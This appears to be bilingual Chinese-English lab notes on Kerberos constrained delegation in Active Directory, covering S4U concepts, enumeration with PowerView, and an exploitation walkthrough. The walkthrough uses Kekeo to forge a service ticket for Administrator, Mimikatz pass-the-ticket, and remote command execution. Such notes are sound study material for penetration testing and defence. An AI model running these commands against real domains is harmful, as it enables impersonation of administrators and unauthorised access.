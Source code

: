 • To impersonate the user, Service for User (S4U) extension is used which provides two extensions:（为了模拟用户，使用 Service for User (S4U) 扩展，它提供了两个扩展）

− Service for User to Proxy (S4U2proxy) - Allows a service to obtain a TGS to a second service (controlled by SPNs on msDs-AllowedToDelegateTo) on behalf of a user.（用户到代理服务 (S4U2proxy) - 允许服务代表用户获取第二个服务的 TGS（由 msDs-AllowedToDelegateTo 上的 SPN 控制）

− Service for User to Self (S4U2self) - Allows a service (must have TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION) to obtain a forwardable TGS to itself on behalf of a user (no actual Kerberos authentication by user takes place). Used in Protocol Transition i.e. when user authenticates with non-Kerberos authentication.（Service for User to Self (S4U2self) - 允许服务（必须具有 TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION）代表用户获取可转发的 TGS 给自己（用户不会进行实际的 Kerberos 身份验证）。 用于协议转换，即当用户使用非 Kerberos 身份验证进行身份验证时）





• SeEnableDelegation privileges are needed to configure Constrained Delegation.（配置约束性授权需要SeEnableDelegation权限）

• Two ways to configure constrained delegation:（有两种方法可以配置约束性委托。）

- Kerberos only: Kerberos authentication is needed for the service to delegate.（仅限Kerberos。服务需要Kerberos认证来进行委托。）

- Protocol transition: Regardless of authentication the service can delegate.（协议转换。无论认证如何，服务都可以进行委托。）


## 枚举

使用PowerView
```
Get-DomainUser –TrustedToAuth

Get-DomainComputer –TrustedToAuth
```

使用ActiveDirectory module
```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

## 利用

这里是利用sname字段不受保护，本来是委托了A服务的票据，可以改成为委托B服务

### 方法1（不推荐）
使用Kekeo请求一个tgs
```
tgs::s4u /tgt:TGT_appsvc@US.TECHCORP.LOCAL_krbtgt~us.techcorp.local@US.TECHCORP.LOCAL.kirbi /user:Administrator /service:CIFS/us-mssql.us.techcorp.local|HTTP/us-mssql.us.techcorp.local
```
（这里我觉得应该是使用工具手动修改sname..）

使用mimikatz ptt
```
Invoke-Mimikatz '"kerberos::ptt TGS_Administrator@US.TECHCORP.LOCAL_HTTP~us-mssql.us.techcorp.local@US.TECHCORP.LOCAL_ALT.kirbi"'
```
执行命令
```
Invoke-Command -ScriptBlock{whoami} -ComputerName us-mssql.us.techcorp.local
```
